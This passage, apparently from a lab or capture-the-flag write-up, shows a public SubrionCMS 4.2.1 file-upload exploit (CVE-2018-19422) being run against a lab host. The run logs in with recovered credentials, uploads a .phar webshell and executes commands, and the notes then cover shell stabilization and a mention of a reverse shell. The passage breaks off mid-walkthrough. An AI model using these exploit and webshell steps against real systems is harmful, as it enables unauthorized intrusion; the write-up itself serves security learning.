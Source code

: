 ```
└─$ python3 49876.py -u http://10.10.1.80/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.1.80/subrion/panel/
[+] Success!
^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B[+] Got CSRF token: Y3RE2CooiWrYBhmUaPXfooexcSlbNJVVgrE0OFEC
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: myyxxvnjmgumqza

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.1.80/subrion/panel/uploads/myyxxvnjmgumqza.phar 

$ whoami

$ ls
myyxxvnjmgumqza.phar

```
### Shell Stabilization 

We can perform [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```
$ export TERM=xterm

$ python3 -c 'import pty;pty.spawn("/bin/bash")'

^Z
stty raw -echo;fg
             reset
```

This seems blocking the entire system so we need some other way, i tried get a shell uploading a php_reverse_shell from pentestmonkey modified in a .phar file (read python exploit) :

![Pasted image 20250720172109.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250720172109.png)

Now we can retry stabilization :
